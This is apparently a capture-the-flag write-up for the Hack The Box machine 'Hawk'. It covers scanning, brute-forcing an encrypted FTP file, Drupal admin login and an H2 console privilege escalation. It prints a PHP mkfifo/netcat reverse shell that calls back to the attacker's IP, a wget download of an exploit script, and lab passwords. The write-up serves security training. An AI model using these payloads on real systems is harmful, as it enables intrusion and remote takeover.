# [Hawk](https://app.hackthebox.com/machines/Hawk)

```bash
nmap -p- --min-rate 10000  10.10.10.102 -Pn
```



After knowing open ports(21,22,80,5435,8082,9092), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80,5435,8082,9092 10.10.10.102 -Pn
```




Let's start from FTP(port 21) that we find which we can login via '**anonymous**' user.




Let's try to analyze the file which we find from FTP.

```bash
file .drupal.txt.enc
```




Let's first `base64` decoding.

```bash
base64 -d .drupal.txt.enc > drupal_ssl
file drupal_ssl
```




I just make brute-force to decrypt this file. For this I find such [tool](https://github.com/glv2/bruteforce-salted-openssl) on Github.


Note: This tool is also available on Kali (as built-in). 

Here,we do brute-force attack to decrypt this file by using tool called `bruteforce-salted-openssl`

```bash
bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt drupal_ssl -c aes-256-cbc -d sha256
```



We find password that is '**friends**',

As we know password, we can decrypt this via `openssl` command.

```bash
openssl enc -d -aes256 -md sha256 -salt -in drupal_ssl -out drupal_decrypted -k friends
```




Now, we know password of 'admin' user for service on port 80.

admin: PencilKeyboardScanner123

We can login via above credentials.




First, we need to add 'PHP Code' filter from 'Modules' section of application.




Then, we just click 'Add Content' -> 'Basic Page', we can enter malicious PHP code to get RCE.

```bash
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1337 >/tmp/f'); ?>
```



I got reverse shell.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt



While enumerating machine, I find file '/var/www/html/sites/default/settings.php' that contains sensitive information.




That's password of 'daniel' user.



daniel: drupal4hawk


But, there's something that I have Python shell while logging via 'daniel' user.

I just see why it is happens from '/etc/passwd' file.




To get normal interactive shell, just did below.

```bash
import os
os.system("/bin/bash")

```




If we pay attention to our nmap scan, we saw that there is database running for port (**8082**)

That is **'H2 database http console'**

Let's search publicly known exploit.




Let's upload this malicious script into target machine by opening http server.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```



Let's download into target machine.

```bash
wget http://10.10.14.9:8080/45506.py
```




Let's change privileges of this file and execute.

```bash
chmod 777 45506.py
python3 45506.py -H 127.0.0.1:8082
```

root.txt

